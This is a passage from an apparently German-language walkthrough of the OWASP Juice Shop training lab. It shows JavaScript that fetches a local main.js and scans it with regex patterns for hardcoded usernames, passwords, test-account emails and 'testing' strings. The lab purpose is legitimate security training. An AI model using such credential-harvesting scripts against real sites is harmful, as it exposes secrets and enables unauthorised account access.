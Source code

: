 ```javascript

// Execute test login
loginWithTestCredentials();
```

### 🔍 Hardcoded Credentials Discovery

```javascript
// Suche nach weiteren hardcoded Credentials in main.js
fetch('http://localhost:3000/main.js')
.then(response => response.text())
.then(code => {
    console.log('🔍 Searching for hardcoded credentials...');
    
    // Pattern für häufige Credential-Variablen
    const credentialPatterns = [
        /testingUsername\s*=\s*["']([^"']+)["']/g,
        /testingPassword\s*=\s*["']([^"']+)["']/g,
        /defaultUser\s*=\s*["']([^"']+)["']/g,
        /defaultPass\s*=\s*["']([^"']+)["']/g,
        /adminUser\s*=\s*["']([^"']+)["']/g,
        /adminPass\s*=\s*["']([^"']+)["']/g,
        /username\s*:\s*["']([^"']+)["']/g,
        /password\s*:\s*["']([^"']+)["']/g
    ];
    
    credentialPatterns.forEach((pattern, index) => {
        const matches = code.match(pattern);
        if (matches) {
            console.log(`🔑 Credential Pattern ${index}:`, matches);
        }
    });
    
    // Spezifische Suche nach bekannten Test-Accounts
    const emailPattern = /["'][^"']*@juice-sh\.op["']/g;
    const emails = code.match(emailPattern);
    if (emails) {
        console.log('📧 Found email addresses:', [...new Set(emails)]);
    }
    
    // Suche nach "testing" related strings
    const testingPattern = /["'][^"']*testing[^"']*["']/gi;
    const testingStrings = code.match(testingPattern);
    if (testingStrings) {
        console.log('🧪 Testing related strings:', [...new Set(testingStrings)]);
    }
});
```

### 🎯 Vollständige Credential Enumeration
